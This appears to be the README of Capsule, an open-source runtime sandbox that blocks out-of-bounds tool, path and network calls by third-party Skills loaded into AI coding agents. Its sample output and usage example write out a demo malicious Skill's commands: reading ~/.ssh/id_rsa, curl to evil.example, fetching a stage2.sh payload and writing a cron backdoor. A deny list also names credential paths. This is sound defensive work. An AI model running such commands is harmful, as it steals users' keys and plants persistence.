


<div align="right"><sub><b>English</b>&nbsp;&nbsp;⇄&nbsp;&nbsp;<a href="./README.md">简体中文</a></sub></div>

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="./assets/hero-dark.svg">
    <source media="(prefers-color-scheme: light)" srcset="./assets/hero-light.svg">
    
  </picture>
</p>

<p align="center"><sub>The seccomp-style runtime sandbox that traps each Skill's tool, path, and network calls — at the call site.</sub></p>

<p align="center">
  <a href="./LICENSE"></a>
  
  <a href="https://github.com/SuperMarioYL/capsule/actions/workflows/ci.yml"></a>
  
  
  
</p>

**A third-party Skill you load into Claude Code or Codex Cli can, the moment it runs, call any tool, read any path, and reach any external host — Capsule wraps each Skill in a deny-by-default capability sandbox and blocks the out-of-bounds call right at the call site, not after the fact in an audit log.**

Capsule brings the OS's capability-security / seccomp-bpf model into the agent-Skill domain. It is not load-time attestation (that verifies a manifest *before* a Skill loads), and it is not an after-the-fact audit trail like [ponytrail](https://github.com/0xroylee/ponytrail) (which records edits once they land). Instead it **re-checks every tool call at the moment it actually happens** against the capabilities the Skill declared, and refuses the call if it falls outside them. This is the missing layer for ecosystems like [affaan-m/everything-claude-code](https://github.com/affaan-m/everything-claude-code): you have already installed a thousand-plus Skills, yet nothing stops the malicious one at runtime.

## Table of contents

- [Why this exists](#why-this-exists)
- [vs ponytrail](#vs-0xroyleeponytrail)
- [Architecture](#architecture)
- [Install](#install)
- [Quickstart](#quickstart)
- [Usage](#usage)
- [Demo](#demo)
- [Capability profile config](#capability-profile-config)
- [Pricing / hosted control plane](#pricing--hosted-control-plane)
- [Roadmap](#roadmap)
- [License](#license)

## Why this exists

Installable agent Skills crossed from novelty to default in the last ~6 months: one library ships 1,600+ Skills loadable by any host (Claude Code, Cursor, Codex Cli, Gemini CLI), and a loaded Skill can silently invoke any tool, read any path, and run any shell command at runtime. Existing tooling either verifies a Skill *before* it loads (after which the declared scope is honor-system) or *records* what happened after the fact; nothing blocks the disallowed call at the call site. Capsule closes that gap — a security-minded team can run untrusted Skills under a deny-by-default capability profile and have violations blocked and logged at the moment they occur.

### vs [0xroylee/ponytrail](https://github.com/0xroylee/ponytrail)

ponytrail is the closest adjacent tool — it cares about the same agent runtime-trust gap, but it *records* edits where Capsule *blocks* calls. This is not a "who's better" contest; it's detection vs. prevention, laid out honestly:

| Capability axis | Capsule | ponytrail |
|---|:---:|:---:|
| Blocks the out-of-bounds call at the call site (the call never runs) | ✓ | — |
| Deny-by-default capability profile (tools / paths / network) | ✓ | — |
| Zero-config, auto-records real edits (no profile to write first) | — | ✓ |
| After-the-fact audit / forensics readability | partial | ✓ |
| Non-invasive, passive bypass (lowest integration cost) | partial | ✓ |

In short: if you want to *see what changed after the fact* with no config to write, ponytrail is less work; if you want the out-of-bounds call *stopped before it happens*, that's where Capsule sits. They are complementary, not competing.

<h2 id="architecture"> Architecture</h2>

A single process — no services, no daemon. The host adapter reduces each tool call to a `CallRequest`; the policy engine checks it against the capability profile and returns a `Decision`; ALLOW passes through, DENY is trapped and recorded; `capsule report` renders a run as an allowed-vs-blocked summary.

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="./assets/atlas-dark.svg">
    <source media="(prefers-color-scheme: light)" srcset="./assets/atlas-light.svg">
     CallRequest -> policy engine (reads capability profile) -> ALLOW pass-through / DENY trap + log -> capsule report">
  </picture>
</p>

`hosts/claude_code.py` is the only host adapter in v0.1: it knows where Claude Code routes tool calls and provides the single chokepoint to interpose on. Everything else is host-agnostic — adding a host later is one more file like this one, not a change to the engine.

<h2 id="install"> Install</h2>

```bash
pip install capsule-agent          # or: uv tool install capsule-agent
```

<h2 id="quickstart"> Quickstart</h2>

From a cold clone to your first `DENIED`, in three commands:

```bash
git clone https://github.com/SuperMarioYL/capsule && cd capsule && pip install -e .
capsule run -p examples/profiles/network-deny.yaml --skill examples/skills/curl-exfil-demo/SKILL.md
capsule report
```

<details>
<summary>Sample output (the malicious demo Skill, blocked)</summary>

```text
ALLOWED tool=read_file cmd="Read ./README.md" skill=curl-exfil-demo reason=allowed
DENIED  tool=shell     cmd="cat ~/.ssh/id_rsa"                 skill=curl-exfil-demo reason=path-denied
DENIED  tool=shell     cmd="curl -s https://evil.example/..."  skill=curl-exfil-demo reason=network-not-in-profile
DENIED  tool=net_fetch cmd="https://evil.example/stage2.sh"    skill=curl-exfil-demo reason=network-not-in-profile
DENIED  tool=edit_file cmd="Write /etc/cron.d/backdoor"        skill=curl-exfil-demo reason=path-not-in-profile

session complete — 1 allowed, 4 blocked.
```

One legitimate read allowed, four exfiltration attempts blocked. The `curl` never touches the network; `~/.ssh/id_rsa` is never read.

</details>

<h2 id="usage"> Usage</h2>

Capsule has three subcommands:

```bash
# 1) Validate a capability profile and see what it grants (use as a CI gate)
capsule check -p examples/profiles/network-deny.yaml

# 2) Run a Skill under a profile — out-of-bounds calls are blocked at the call site
capsule run -p examples/profiles/network-deny.yaml \
            --skill examples/skills/curl-exfil-demo/SKILL.md

# 3) Render the allowed-vs-blocked report for a run
capsule report
```

To wire Capsule into a real host, use `capsule.hosts.claude_code.ClaudeCodeAdapter` as the chokepoint — it reduces the host's tool-use events to a capability check:

```python
from capsule.interpose import Interposer
from capsule.hosts.claude_code import ClaudeCodeAdapter
from capsule.profile import load_profile_file

profile = load_profile_file("examples/profiles/network-deny.yaml")
adapter = ClaudeCodeAdapter(Interposer(profile))

# Wrap the host's tool dispatch: a blocked tool never actually executes.
dispatch = adapter.guard_tool_use(host.run_tool)
dispatch("Bash", {"command": "curl https://evil.example"})   # -> CapabilityViolation
```

More examples live in [`examples/`](./examples).

<h2 id="demo"> Demo</h2>


<h2 id="capability-profile-config"> Capability profile config</h2>

A capability profile is a deny-by-default YAML document bound to one Skill:

| Key | Type | Default | Meaning |
|---|---|---|---|
| `skill` | string | (required) | The Skill this profile binds |
| `default` | string | `deny` | Only `deny` in v0.1 — the absence of a grant is a denial |
| `tools` | list | `[]` | Allowed tool verbs (`read_file` / `edit_file` / `shell` / `net_fetch`); anything else is denied |
| `paths.read` | list | `[]` | Readable path globs (`./**` anchors on the run directory) |
| `paths.write` | list | `[]` | Writable path globs |
| `paths.deny` | list | `[]` | Always-denied paths — a deny always beats a read/write allowance |
| `network.allow` | list | `[]` | Allowed egress hosts; empty = no egress at all |

```yaml
skill: curl-exfil-demo
default: deny
tools: [read_file, edit_file]
paths:
  read:  ["./**"]
  write: ["./out/**"]
  deny:  ["~/.ssh/**", "~/.aws/**"]
network:
  allow: []          # empty = zero egress
```

<h2 id="pricing--hosted-control-plane"> Pricing / hosted control plane</h2>

The local engine is free and open source — enough for a single machine. When a team needs to push one policy to many machines, aggregate violations in one place, and retain audit history — the job a CLI cannot do — that is the **hosted control plane (roadmap)**:

- distribute one `network-deny` profile to N developer machines;
- aggregate violation alerts into a dashboard;
- audit retention and compliance reports.

Shape: self-hosted free + hosted paid, per-seat (early estimate ~$15–25 / engineer / month, team plan from ~10 seats). v0.1 ships no paywall — the hosted tier is a roadmap promise, not a crippled open-source feature. Want a hosted pilot (push one profile to 5 machines, see aggregated blocks in a dashboard)? Open an [issue](https://github.com/SuperMarioYL/capsule/issues).

<h2 id="roadmap"> Roadmap</h2>

- [x] **m1 — enforce calls**: deny-by-default capability profile traps and logs an out-of-bounds call at the call site
- [x] **m2 — profile + report**: YAML capability-profile schema, bind-by-skill-name, `capsule report` renders allowed vs blocked
- [x] **m3 — demo + quickstart**: reproducible `curl-exfil-demo`, a real block in under 5 minutes
- [ ] More hosts (Cursor / Codex Cli / Gemini CLI)
- [ ] Hosted policy distribution + violation aggregation + audit retention (control plane)
- [ ] Signed / attested capability manifests (trust-badge tier)
- [ ] Kernel seccomp-bpf syscall filtering (v0.1 traps at the tool-call layer — it borrows the model, not the kernel mechanism)

## License

[MIT](./LICENSE). File a feature request or bug in [Issues](https://github.com/SuperMarioYL/capsule/issues); PRs welcome.

## Share this

```text
Capsule — a seccomp-style runtime sandbox for every Skill you load into Claude Code.
It blocks the disallowed call at the call site, not in an after-the-fact audit.
https://github.com/SuperMarioYL/capsule
```

<p align="center"><sub><a href="./LICENSE">MIT</a> © 2026 SuperMarioYL</sub></p>
